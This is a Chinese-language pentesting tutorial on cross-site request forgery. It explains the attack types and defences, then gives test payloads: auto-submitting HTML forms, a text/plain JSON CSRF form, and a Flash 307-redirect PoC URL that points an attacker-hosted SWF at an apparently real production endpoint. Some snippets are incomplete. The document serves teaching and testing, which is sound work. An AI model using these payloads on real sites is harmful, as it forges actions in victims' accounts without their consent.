

CSRF
================================

简介
--------------------------------
+ CSRF（Cross-site request forgery）跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF，与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。
+ 站外类型
	- 攻击原理：攻击者构建一个恶意页面（通常托管在攻击者控制的服务器上），诱导受害者访问，当受害者加载该页面时，会自动向目标网站发送一个携带用户cookie的请求（如修改密码，转账等）。
	- 核心特征： **跨域** ，攻击者的发起源（Referer/Oringin）与目标网站不同源。
	- 防御：使用CSRF Token、验证Referer/Origin、使用验证码、避免全站通用的cookie、cookie设置SameSite属性等。
+ 站内类型
	- 攻击原理：攻击者利用xss漏洞，在目标网站内部注入恶意脚本，由于脚本在目标网站下（同源），它可以完全访问该域下的cookie，并直接发起秦秋。
	- 核心特征： **同域** ，攻击者的发起源（Referer/Oringin）与目标网站同源,导致Referer/Origin验证失效。
	- 防御：使用CSRF Token、CSP策略等。
	- 它是Self-xss的一种利用手段。

攻击原理及过程
--------------------------------

	|csrf|

- 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
- 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
- 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
- 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
- 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

测试流程
--------------------------------

GET型
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用表单自动提交。

 ::
 
	<form action="http://www.***.com/transfer.php" method="get" id="forms">
		<input type="text" name="username" value="" />
		<input type="password" name="pwd" value="" />
		<input type="submit" value="提交"/>
	</form>
	

+ 直接选择Burp Suite的Generate CSRF PoC生成POC.html文件测试。

POST型
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ POST型与GET型的区别就在于POST型CSRF需要构造form表单，再由JavaScript自动提交。

 ::

		<html>
		<head>
			<title>
				post data
			</title>    
		</head>
		<body>
		<form id="id" method="post" action="https://www.xxx.com/submit">
		</form>
		
		</body>
		</html>

+ 也可以直接选择Burp Suite的Generate CSRF PoC生成POC.html文件测试。

JSON格式的CSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 一般服务器有Content-Type校验，且接口需要JSON格式的数据，因此攻击者需要构造一个包含JSON数据的请求来进行CSRF攻击。
+ 无法使用传统的HTML表单来构造JSON格式的请求，因为HTML表单只能发送键值对形式的数据，而JSON数据通常是一个复杂的对象或数组。因此，攻击者需要使用JavaScript来构造和发送包含JSON数据的请求。
	::

		如需要使用"text/plain"的Content-Type来绕过浏览器的同源策略限制，使得攻击者能够发送包含JSON数据的请求。
		
		<html>
		<!-- CSRF PoC - generated by Burp Suite Professional -->
		<body>
		
			<form action="https://xxxxxx/simauth/app/updateAppInfo" method="POST" enctype="text/plain">
			<input type="hidden" name="{"appId":"300016001555","appName":"0xdawnnn"}" value="" />
			<input type="submit" value="Submit request" />
			</form>
		</body>
		</html>

		注：一般会导致415错误（Unsupported Media Type）

+ 预检请求
	- 设置非简单Content-Type头 ，如需要设置为application/json。
	- 设置自定义Header，如token等。
+ 利用思路
	- 表单提交：利用json的值来闭合=号，构造出一个合法的键值对。利用前提：是服务端 **不会校验Content-Type** 。
		::

			<html>
			<body>
			
			<form id="myform" enctype="text/plain" action="https://victim-site/userdelete" method="POST">
				<input id="json" type="hidden" name='json' value='test"}'>
			</form>
			
			</body>
			</html>

	- XHR对象发送POST请求：设置Content-Type为application/json，并在请求体中包含JSON数据， **CORS允许** ，否则预检请求会失败，导致实际请求无法发送。
		::

			<html>
			<body>
				
				<form action="#">
				<input type="button" value="Submit request" onclick="submitRequest();"/>
				</form>
			</body>
			</html>

	- 借助flash，利用307跳转实现CSRF（目前大部分情况已经不能利用）
		- 原理：早期Flash（SWF）可以发起跨域HTTP请求，且浏览器会携带目标站点的Cookie，307跳转会保留原始请求方法和请求体，因此攻击者可以利用这一特性来绕过一些CSRF防护机制。
		- 攻击者可以构造一个恶意页面，当用户访问该页面时，页面会发起一个POST请求到攻击者控制的服务器，并在服务器上设置一个307重定向到目标网站的敏感操作接口。由于307跳转会保留原始请求方法和请求体，目标网站会将该请求视为来自受信任用户的合法请求，从而执行敏感操作。
		- POC: ``https://www.0xdawn.cn/swf_json_csrf/test.swf?endpoint=https://sim.ecloud.10086.cn:8085/simauth/app/updateAppInfo&reqmethod=POST&ct=application/json;charset=UTF-8&jsonData={%22appId%22:%22300016001555%22,%22appName%22:%220xdawn%22}&php_url=https://www.0xdawn.cn/swf_json_csrf/test.php``
		- 相关工具： swf csrf tool（https://github.com/appsecco/json-flash-csrf-poc）

参考链接
--------------------------------

- `demo <https://www.github.com/jrozner/csrf-demo>`_
- `Wiping Out CSRF <https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f>`_
- `Neat tricks to bypass CSRF protection <https://www.slideshare.net/0ang3el/neat-tricks-to-bypass-csrfprotection>`_

